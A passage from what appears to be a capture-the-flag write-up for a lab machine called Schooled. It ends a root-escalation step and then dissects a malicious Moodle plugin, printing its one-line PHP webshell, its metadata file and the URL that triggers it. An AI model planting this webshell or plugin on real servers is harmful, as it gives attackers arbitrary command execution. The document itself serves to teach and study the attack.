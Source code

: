 ```
pkg: File //tmp/tmp.E9AA2kxeLQ/x.sh not specified in the manifest
Extracting x-1.0: 100% 

```

There’s a bunch in there, but four lines from the bottom is the output of `id` showing root. From there I can get a shell any number of ways.

## Beyond Root

I used a malicious Moodle plugin to get execution on Schooled. Rather than make one, I downloaded one from [this GitHub](https://github.com/HoangKien1020/Moodle_RCE). I uploaded the plugin, and then triggered the webshell at:

```

http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id

```

So what is it?

The file is `rce.zip`, and it is a zip archive that contains two files with some directories:

```

oxdf@parrot$ file rce.zip 
rce.zip: Zip archive data, at least v1.0 to extract
oxdf@parrot$ unzip -l rce.zip 
Archive:  rce.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2020-06-17 11:23   rce/
        0  2020-06-17 09:52   rce/lang/
        0  2020-06-17 13:43   rce/lang/en/
       30  2020-06-17 11:31   rce/lang/en/block_rce.php
       73  2020-06-17 13:43   rce/version.php
---------                     -------
      103                     5 files

```

`version.php` gives some metadata about the “plugin”:

```

<?php 
$plugin->version = 2020061700;
$plugin->component = 'block_rce';

```

`block_rce.php` is a simple webshell:

```

<?php system($_GET['cmd']); ?>

```

Moodle must unpack the plugin into the `/blocks/` directory, where I can then access it.